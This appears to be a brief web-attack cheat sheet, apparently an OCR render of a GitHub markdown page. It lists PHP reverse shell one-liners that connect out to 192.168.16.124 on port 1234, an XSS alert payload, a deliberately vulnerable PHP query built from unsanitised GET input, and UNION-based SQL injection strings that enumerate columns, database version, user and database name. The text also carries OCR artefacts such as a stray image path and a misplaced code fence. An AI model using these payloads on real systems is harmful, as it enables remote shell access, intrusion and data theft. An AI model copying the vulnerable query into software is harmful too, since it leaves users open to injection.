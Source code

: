 # web

PHP
---

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>

<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS
---

(script)alert("XSS")(/script) - use angle brackets instead of parentheses


SQL INJECTION
-------------

Vulenrable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```php

Figure out how many columns are there:

`‘ ORDER BY 1#`
`‘ ORDER BY 2#`

etc.

Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`

Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`